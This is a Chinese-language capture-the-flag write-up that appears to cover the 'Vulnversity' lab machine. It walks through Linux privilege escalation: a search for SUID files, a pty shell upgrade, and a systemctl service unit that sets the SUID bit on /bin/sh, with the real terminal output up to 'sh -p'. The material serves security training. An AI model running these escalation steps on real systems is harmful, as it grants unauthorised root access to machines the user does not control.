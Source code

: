 + 搜索SUID文件：

    ```find / -user root -perm -4000 -exec ls -ldb {} \;2>/dev/null```
    
    ![Alt text](/style/image/image-254.png)

+ [systemctl GTFOBins利用](https://gtfobins.github.io/gtfobins/systemctl/)

    ```
    #先获得一个更稳定的shell：
    python -c 'import pty;pty.spawn("/bin/bash")'

    #复制以下所有代码到目标机的shell界面即可（该脚本的目的是创建一个系统服务并以root用户身份运行它）

    TK=$(mktemp).service   #我们创建一个名为“TK”的环境变量。在这个变量中，我们调用mktemp命令来创建一个临时文件，作为Systemd服务单元文件（.service在最后）


    #创建一个单元文件并将其分配给环境变量--以此完成服务单元文件的构造
    #下面是我们执行单元文件所需要的配置
    #默认情况下：systemctl将在/etc/system/systemd中搜索文件。
    #但是当前的登录用户没有权限写入/etc/system/systemd，我们通过将单元文件内容 一行一行地回显到刚才创建的env变量中来解决这个问题
    echo '[Service]    #调用echo命令开始回显输入(注意单引号，通过不包括关闭行的第二个单引号，我们能够输入多个单行并完成我们的Systemd服务单元文件)
    Type=oneshot
    ExecStart=/bin/sh -c "chmod +s /bin/sh"  #当服务启动时调用默认的系统shell（-c 告诉shell执行引号中的所有内容）
    [Install]                                #单元文件的第二部分
    WantedBy=multi-user.target' > $TK        #设置此服务将运行的状态(或运行级别)，将我们的所有输入指向TK env变量

    #使用 systemctl 运行这个单元文件
    /bin/systemctl link $TK                  #这使得我们的单元文件可用于systemctl命令，即使它在标准搜索路径之外
    /bin/systemctl enable --now $TK          #启用一个单元实例--服务单元文件得以运行
    ```
    实际结果：

    ```
    $ python -c 'import pty;pty.spawn("/bin/bash")'
    www-data@vulnuniversity:/$ TK=$(mktemp).service
    TK=$(mktemp).service
    www-data@vulnuniversity:/$ echo '[Service]
    echo '[Service]
    > Type=oneshot
    Type=oneshot
    > ExecStart=/bin/sh -c "chmod +s /bin/sh"
    ExecStart=/bin/sh -c "chmod +s /bin/sh"
    > [Install]
    [Install]
    > WantedBy=multi-user.target' > $TK
    WantedBy=multi-user.target' > $TK
    www-data@vulnuniversity:/$ /bin/systemctl link $TK
    /bin/systemctl link $TK
    Created symlink from /etc/systemd/system/tmp.1O6kJppkOU.service to /tmp/tmp.1O6kJppkOU.service.
    www-data@vulnuniversity:/$ /bin/systemctl enable --now $TK
    /bin/systemctl enable --now $TK
    Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.1O6kJppkOU.service to /tmp/tmp.1O6kJppkOU.service.
    www-data@vulnuniversity:/$ sh -p
    sh -p